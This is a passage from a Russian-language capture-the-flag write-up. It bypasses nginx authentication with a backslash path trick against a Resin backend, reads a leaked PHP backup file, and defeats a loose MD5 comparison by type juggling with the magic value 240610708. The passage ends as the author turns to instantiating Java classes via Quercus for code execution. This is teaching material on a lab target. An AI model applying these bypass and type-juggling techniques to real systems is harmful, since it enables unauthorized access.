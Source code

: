 ```
http://172.104.154.29/\dev
```

Nginx будет думать, что мы запрашиваем не папку `dev` и не будет требовать аутентификации, а Resin с радостью покажет нам содержимое этой папки. Переходим туда и видим другой состав файлов в исходном коде страницы:

```php
array(3) {
  [0]=>
  string(9) "index.php"
  [1]=>
  string(8) "task.php"
  [2]=>
  string(17) "task.php~~~edited"
}
```

Вот это уже интересно! Смотрим содержимое `task.php~~~edited`:

```php
error_reporting(0);
if(md5($_COOKIE['developer_testing_mode'])=='0e313373133731337313373133731337')
{
 if(strlen($_GET['constr'])===4){
    $c = new $_GET['constr']($_GET['arg']);
    $c->$_GET['param'][0]()->$_GET['param'][1]($_GET['test']);
 }else{
    die('Swimming in the pool after using a bottle of vodka');
 }
}
```

Во-первых нужно обойти проверку равенства MD5 куки заданному значению. Тут есть нестрогое сравнение (`==`), которое можно эксплуатировать при помощи жонглирования типами (type juggling, [можно почитать тут](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)). Мы подберём такой хеш, который при нестрогом сравнении будет "равен" тому, что захардкожен:

```php
for ($i=0;;$i++) {
    $h = md5(strval($i));
    if ($h == '0e313373133731337313373133731336') {
        echo "{$i} {$h}";
        break;
    }
}
```

После некоторого ожидания получаем значение `240610708`, MD5-хеш которого равен `0e462097431906509019562988736854`. Подставляем это значение в куку, проходим проверку, идём дальше.

Теперь у нас появляется прекрасная возможность создать класс и вызвать в нём цепочку из двух методов, но всё не так просто. Название класса должно быть ровно 4 символа. В дефолтном PHP таких всего один: `Phar`, он нам ничем не поможет… но у нас то не дефолтный PHP, а Quercus! Смотрим документацию и [находим прекрасное](http://quercus.caucho.com/quercus-3.1/doc/quercus.xtp#WorkingwithJavaclassesinPHP) — мы же можем создавать Java-классы!
